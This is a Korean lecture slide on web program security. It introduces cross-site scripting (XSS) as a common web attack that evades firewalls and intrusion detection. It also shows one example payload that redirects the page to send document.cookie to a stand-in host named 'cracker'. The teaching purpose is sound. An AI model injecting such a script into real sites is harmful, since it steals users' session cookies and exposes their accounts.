

# < 웹 프로그램 보안 >
크로스 사이트 스크립트(Cross Site Script : XSS)
Web 해킹의 대표적인 기법
"XSS취약점"은 보안에 대한 지식이 없는 웹프로그래머에 의해 개발된 WEB어플리케이션에서 발견되는 어플리케이션(HTTP) 관련 취약점
 따라서 방화벽이나 IDS, 바이러스백신등과 같은 기존의 보안대책들이 이 XSS취약점에 대해서는 거의 감지하지 못하는 현실임(침입 탐지 시스템(IDS:Intrusion Detection System))

인터넷 상에서 악성코드를 유포하거나 컴퓨터 실행기록인 쿠키 파일을 빼낼 때 사용되는 해킹기법
document.location="http://cracker/cookie.php?cookie="+document.cookie;
이용자가 이 XSS 스크립트가 심어진 게시물을 클릭하면 자신도 모르는 새 악성코드에 감염되거나 쿠키파일이 해커에게 넘어갈 수 있음